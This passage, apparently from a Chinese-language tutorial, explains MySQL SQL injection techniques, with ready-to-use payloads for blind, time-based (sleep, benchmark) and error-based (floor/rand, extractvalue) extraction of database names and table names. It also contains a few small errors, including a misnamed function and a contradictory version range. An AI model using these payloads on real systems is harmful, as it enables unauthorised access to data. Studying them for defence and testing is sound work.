 #### 盲注方法
```sql
#获取库名，表名，字段名什么的还是用上面那些方法，不过我们要通过枚举获取数据，下面说下方法，这里假设以获取表名为例

select 1,length(table_name) from information_schema.tables where table_schema = database() limit 0,1;
#先通过length()方法获取第一条数据的长度，知道长度之后，方便枚举

select 1,substr( (select table_name from information_schema.tables where table_schema = database() limit 0,1 ) ,1,1)
#这里使用substr(str,pos,len)这个函数来对返回的字符进行截取，从pos位置截取len长度的字符，进行返回，这里的话获取到了第一行的数据之后，就要不停的改变pos或者len来匹配字符，不过建议配合ascii()函数使用，因为这样效率会快一些，这样的话就改变pos就好了

select 1,ascii( substr( (select table_name from information_schema.tables where table_schema = database() limit 0,1 ) ,1,1) )
#ascii(str)函数会把括号中的字符作为ascii码返回，这的话可以使用2分法去对字符进行枚举
```

### 其他盲注函数
* ord()函数效果和ascii()类似
* mid()和substr()一样
* reserver(str) 把str倒序然后返回
* like匹配
* regexp 比较重要的正则注入 
    * regexp,使用正则表达式进行注入也可以比较快的确定字符范围，而且它是默认不区分大小写的，如果要区分的话可以用 regexp binary
    * `select 1 from information_schema.tables where table_schema=database() and table_name regexp "正则" limit 0,1;`

### 延时注入使用函数
如果是碰到延时注入，那么需要配合if()函数使用*  
if(表达式，为真执行这个，为假执行这个)
* sleep(num) 延迟num秒返回数据  
    `注意如果查询的参数不存在，那么sleep也不会被执行，那么到时候可能会造成不存在注入的假象`
* benchmark(count,expr) 执行count次expr(表达式)，可以通过增加计算量来达到延迟效果
* rpad(str,len,padstr) 返回字符串 str, 其右边由字符串padstr 填补到len 字符长度。假如str 的长度大于len, 则返回值被缩短至 len 字符。
* repeat(str,count) 返回由字符串str重复count次的字符串， 如果计数小于1，则返回一个空字符串。返回NULL如果str或count为NULL。
* rlike 和regexp一样，可以通过多次正则来消耗资源

> <h2 id="5">0x05 注入时的常用注释</h2>
* /**/ 这个注释符主要是进行多行注释，在使用时可以只写 /* 来达到注释后面语句的效果
* \# 注释一行
* --+ 注释一行，注意其实是--（空格），只不过在url地址栏中空格老是会被转码，所以使用+代替，因为+会被转为空格
* /\*!\*/ 内联注释,在内联注释中的语句是会被执行的
    ```
    关于内联注释，还可以这样写/*!50000select*/,这样是没问题的，可以执行的，数字>=50000 & 数字<=10000都没问题
    ```

> <h2 id="6">0x06 报错注入</h2>
* floor() & rand()
    ```sql
    利用手法:
    and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
    #注意这里的floor报错函数写在了from后面，这里是很关键的，第一个select后面不支持多个参数，最多只能写一个，不然就会报错，所以才要把报错语句写在from后面
    #为什么会报错？，如果你select没有用括号包起的话，多个参数是没问题的，但是用了and被括号包起来的select就会有问题，我觉得可能和select (1,2,3)这种行为差不多，这个也会报错
    ```
    ```
    这个方法的核心是用floor配合rand函数在配合group by进行报错，所以floor(rand(0)*2)写哪里无所谓，但是要有，而且一定要用group by 去对他进行排序才行。
    ```
* extractvalue()
    ```sql
        利用手法：
        and (extractvalue(1,concat("~",(select database()))))
    ```